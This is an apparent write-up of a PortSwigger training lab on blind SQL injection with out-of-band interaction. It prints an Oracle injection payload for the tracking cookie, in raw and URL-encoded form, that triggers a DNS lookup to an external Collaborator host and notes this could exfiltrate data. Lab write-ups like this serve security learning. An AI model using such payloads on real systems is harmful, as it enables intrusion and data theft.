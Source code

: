 # Blind SQL injection with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

Burp Suite Professional is required to solve this lab! 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, SQL injection can be combined with basic XXE techniques:
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie (Use the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to create payloads).

```text
TrackingId=3vN9DLaImMIfzJgX' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

URL-encode (CTRL-U):

```text
TrackingId=3vN9DLaImMIfzJgX'+||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```

4. Send, and check in the Collaborator tab that the payload had indeed triggered a DNS lookup and potentially exploit this behaviour to exfiltrate sensitive data from the application.:

![SQLi](../../_static/images/sqli31.png)

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. To solve the lab, it is required to exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) is only available in the Enterprise and Professional editions. You can apply for a free 30-day trial [here](https://portswigger.net/requestfreetrial/pro). 

